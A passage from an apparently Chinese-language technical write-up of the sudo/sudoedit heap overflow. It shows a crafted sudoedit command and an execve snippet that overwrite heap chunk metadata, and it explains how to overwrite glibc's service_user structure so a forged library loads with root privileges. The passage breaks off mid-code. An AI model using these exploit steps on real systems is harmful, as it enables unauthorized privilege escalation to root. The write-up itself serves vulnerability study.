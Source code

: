 例如，amd64 Linux中，以下命令会分配24字节的`user_args`缓冲区（实际分配32字节），并将下一个堆块的size覆盖为`A=a\0B=b\0”`（0x00623d4200613d41），fd覆盖为`C=c\0D=d\0`（ 0x00643d4400633d43），bk覆盖为`E=e\0F=f\0` （0x00663d4600653d45）。

```bash
env -i 'AA=a\' 'B=b\' 'C=c\' 'D=d\' 'E=e\' 'F=f' sudoedit -s '1234567890123456789012\' 
--------------------------------------------------------------------- 

--|--------+--------+--------+--------|--------+--------+--------+--------+-- 
  |        |        |12345678|90123456|789012.A|A=a.B=b.|C=c.D=d.|E=e.F=f.| 
--|--------+--------+--------+--------|--------+--------+--------+--------+-- 

              size  <---- user_args buffer ---->  size      fd       bk 
```

**写连续的多个null**：其实环境变量并不一定得是`env_name=XXX`这种形式，环境变量可以是字符串数组。C代码中用`execve`执行shell命令，环境变量设置2个连续的`\`即可插入2个连续的null字节。

```c
char *env[] = { "BBBBBBBB", "\\", "\\", "CCCCCCCC", NULL };
execve("/usr/bin/sudoedit", argv, env);
```



## 5.漏洞利用

#### （1）目标与挑战

**目标**：溢出后覆盖[`service_user`结构](https://elixir.bootlin.com/glibc/glibc-2.32/source/nss/nsswitch.h#L61)。该结构出现在libc的[`nss_load_library()`函数](https://elixir.bootlin.com/glibc/glibc-2.32/source/nss/nsswitch.c#L320)中，用于加载动态链接库。如果能覆盖`service_user->name`，就能指定加载我们伪造的库，利用root权限运行非root权限的库。

```c
// 1. service_user 结构
typedef struct service_user
{
  /* And the link to the next entry.  */
  struct service_user *next;
  /* Action according to result.  */
  lookup_actions actions[5];
  /* Link to the underlying library object.  */
  service_library *library;
  /* Collection of known functions.  */
  void *known;
  /* Name of the service (`files', `dns', `nis', ...).  */
  char name[0];
} service_user;

// 2. nss_load_library() 函数
static int nss_load_library (service_user *ni)
{
  if (ni->library == NULL)
    {
      static name_database default_table;
      ni->library = nss_new_service (service_table ?: &default_table,	// （1）设置 ni->library
				     ni->name);
      if (ni->library == NULL)
	return -1;
    }

  if (ni->library->lib_handle == NULL)
    {
      /* Load the shared library.  */
      size_t shlen = (7 + strlen (ni->name) + 3
		      + strlen (__nss_shlib_revision) + 1);
      int saved_errno = errno;
      char shlib_name[shlen];
```